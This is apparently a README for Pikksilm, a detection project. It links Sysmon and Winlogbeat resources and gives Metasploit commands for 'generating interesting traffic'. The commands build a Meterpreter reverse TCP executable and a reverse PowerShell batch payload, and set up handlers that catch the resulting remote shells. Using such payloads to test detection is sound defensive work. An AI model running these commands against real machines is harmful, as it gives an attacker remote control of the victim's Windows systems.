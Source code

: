 # Pikksilm

* [Pikksilm](https://github.com/markuskont/pikksilm)
* [Sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
* [sysmon modular](https://github.com/olafhartong/sysmon-modular)
* [verbose sysmon config](https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml)
* [Winlogbeat](https://www.elastic.co/beats/winlogbeat)

## Generating interesting traffic

* [installing metasploit on linux](https://docs.rapid7.com/metasploit/installing-the-metasploit-framework/#installing-the-metasploit-framework-on-linux)

### Reverse TCP

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=eth0 LPORT=53  -f exe > bad.exe
```

```
msfconsole

msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost eth0
msf6 exploit(multi/handler) > set lport 53
msf6 exploit(multi/handler) > exploit

meterpreter > dir

```

### Reverse PS

```
msfvenom -p cmd/windows/reverse_powershell lhost=eth0 lport=8089 > shell.bat
```

```
msfconsole

msf6 > use exploit/multi/handler

msf6 exploit(multi/handler) > set payload cmd/windows/reverse_powershell
msf6 exploit(multi/handler) > set lhost eth0
msf6 exploit(multi/handler) > set LPORT 8089
msf6 exploit(multi/handler) > exploit
```
